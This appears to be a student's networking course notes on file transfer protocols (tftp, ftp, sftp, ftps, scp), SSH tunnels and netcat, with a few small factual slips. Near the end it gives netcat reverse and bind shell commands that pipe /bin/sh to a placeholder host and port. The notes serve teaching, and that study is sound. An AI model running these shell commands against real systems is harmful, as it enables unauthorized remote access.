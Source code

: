 # data transfer, movement, and redirection
## data transfer
common methods for transferring data are: tftp, ftp(active and passive), sftp, scp
### tftp - trivial file transfer protocol
- rfc 1350 rev2
- udp transport
- extremely small and very simple communication
- no terminal communication ()
- insecure (no authentication or encryption)
- no directory services
- used often for tech such as BOOTP and PXE
### ftp - file transfer protocol
- rfc 959
- tcp transport
- uses multiple tcp connections
- control connection (21)/data connection (20)
- authentication through clear-text sign in (username and password)
- insecure in default configuration
- has directory services
- can be enhanced with ssl/tls(ftps)
- anonymous login
### sftp - secure file transfer protocol
- TCP transport (TCP port 22)
- Uses symmetric and asymmetric encryption
- Adds FTP like services to SSH
- Authentication through sign in (username and password) or with SSH key
- Interactive terminal access
### ftps - file transfer protocol secure
- TCP transport (TCP port 443)
- Adds SSL/TLS encryption to FTP
- Authentication with username/password and/or PKI
- Interactive terminal access
### scp - secure copy protocol
- TCP Transport (TCP port 22)
- Uses symmetric and asymmetric encryption
- Authentication through sign in (username and password) or with SSH key
- Non Interactive
- SYNTAX:   
Download a file from a remote directory to a local directory  
```$ scp student@172.16.82.106:secretstuff.txt /home/student```   
Upload a file to a remote directory from a local directory  
```$ scp secretstuff.txt student@172.16.82.106:/home/student```  
Copy a file from a remote host to a separate remote host  
```$ scp -3 student@172.16.82.106:/home/student/secretstuff.txt student@172.16.82.112:/home/student```

notes:   
scp <user>@<ip>:<file> <destination>  
scp <target><location> (put a "." to put in pwd on your machine)  
scp<source><destination>  
  
- SCP SYNTAX W/ ALTERNATE SSHD
Download a file from a remote directory to a local directory  
```$ scp -P 1111 student@172.16.82.106:secretstuff.txt /home/student```  
Upload a file to a remote directory from a local directory    
```$ scp -P 1111 secretstuff.txt student@172.16.82.106:/home/student```     
SCP SYNTAX THROUGH A TUNNEL  
```ssh student@172.16.82.106 -L 1111:localhost:22 -NT```  
Download a file from a remote directory to a local directory  
```$ scp -P 1111 student@localhost:secretstuff.txt /home/student```  
Upload a file to a remote directory from a local directory  
```$ scp -P 1111 secretstuff.txt student@localhost:/home/student```  
  
## traffic redirection

notes:  
netcat used to banner grab to see what is really running on a port in case not the usual service is assigned to that port  
```nc 172.16.1.15 22```  

### netcat
NETCAT is the "swiss army knife" networking utility which reads and writes data across network socket connections using the 
TCP/IP protocol. It is designed to be a reliable "back end" tool that can be used directly or easily driven by other 
programs and scripts.  
Can be used for the following:  
- inbound and outbound connections, TCP/UDP, to or from any ports
- troubleshooting network connections
- sending/receiving data (insecurely)
- port scanning (similar to -sT in Nmap)
### netcat: client to listener file transfer
```
Client (sends file): nc 10.2.0.2 9001 < file.txt  
Listener (receive file): nc -l -p 9001 > newfile.txt  
```
### netcat: listener to client file transfer  
```  
Listener (sends file): nc -l -p 9001 < file.txt  
Client (receive file): nc 10.2.0.2 9001 > newfile.txt  
```  
### netcat relay demos  
on client relay:  
```  
mknod mypipe p  
nc 10.1.0.2 9002 0< mypipe | nc 10.2.0.2 9001 1> mypipe  
```  
on listener2 (sends info):  
```nc -l -p 9002 < infile.txt```  
on listener1 (receives info):  
```nc -l -p 9001 > outfile.txt```  
writes the output to listener1 and listener2 through the named pipe   

notes on netcat relay:    
pc1 nc -lp <port>  
pc3 nc -lp <port>  
pc2 nc <pc1 ip> <port> 0<pipe | nc <pc3><port> 1>pipe  
  
  
### file transfer with /dev/tcp  
on the receiving box:  
```nc -l -p 1111 > file.txt```  
on the sending box:  
```cat file.txt > /dev/tcp/10.2.0.2/1111```  
this method is useful for host that does not have NETCAT available  

### REVERSE SHELL USING NETCAT
When shelled into the remote host using -c :  
```nc -c /bin/sh <your ip> <any unfiltered port>```  
You could even pipe BASH through NETCAT.  
```/bin/sh | nc <your ip> <any unfiltered port>```
Then listen for the shell.  
```nc -l -p <same unfiltered port> -vvv```  
You can also listen using the -e with NETCAT.  
```nc -l -p <any unfiltered port> -e /bin/bash```  





SSH
Various Implementations (v1 and v2)

Provides authentication, encryption, and integrity.

Allows remote terminal sessions

Used for tunneling

Created as a secure replacement for Berkeley Remote commands:

rsh - replaced with ssh, provides a channel for running a shell on a remote computer.

rlogin - replaced with rlogin, provides remote login capability.

rcp - replaced with scp for secure file transfer

sftp (not a unix r command replacement) - creates remote directory listing and file transfer capability over SSH


